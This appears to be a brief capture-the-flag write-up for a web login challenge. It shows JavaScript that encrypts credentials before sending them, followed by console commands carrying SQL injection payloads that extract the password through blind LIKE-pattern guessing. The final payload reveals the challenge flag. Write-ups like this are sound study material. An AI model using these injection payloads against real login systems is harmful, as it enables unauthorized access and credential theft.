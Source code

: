 ```js
  request.setRequestHeader(
    'Content-Type',
    'application/x-www-form-urlencoded'
  )
  request.onreadystatechange = function () {
    if (request.readyState === 4 && request.status === 200) {
      var message = document.getElementById('output')
      message.textContent = request.responseText
    }
  }

  request.send('data=' + encodeURIComponent(encryptedData))
}

function login() {
  var publicKey = setPublicKey(),
    username = document.getElementById('username').value,
    password = document.getElementById('password').value,
    credentials = username + ':' + password,
    encryptedData = encryptData(publicKey, credentials)
  sendEncryptedData(encryptedData)
}
```


#### Steps to recreate
>when you send the code below  in your browser console, you should get `"Invalid Username or password"` as the response. 

 ```bash
sendEncryptedData(encryptData(setPublicKey(), "admin:admin")) 
```


>but when you send this instead, 

```bash
sendEncryptedData(encryptData(key,"admin' and password like '%'--:admin"))
```

>we get `"Login for admin' and password like '%'-- not allowed"` as the response. This is a indication of SQLi with some input filtering set up, we can guess the password which is the flag by simply brute-forcing using a list of alphabets and numbers. If the character is wrong, we get "Invalid Username or password" as the response. I didn't need to script in this challenge, would have been necessary if the flag was longer or had special characters. 

>This was the final payload

```bash
sendEncryptedData(encryptData(key,"admin' and password like 'actf{amazing_you_solved_it}'--:admin"))
```

Sorry I could not give a fully detailed write-up with enough screenshots and all, the ctf platform was taken down 😔.

_Sayonara~🍻_
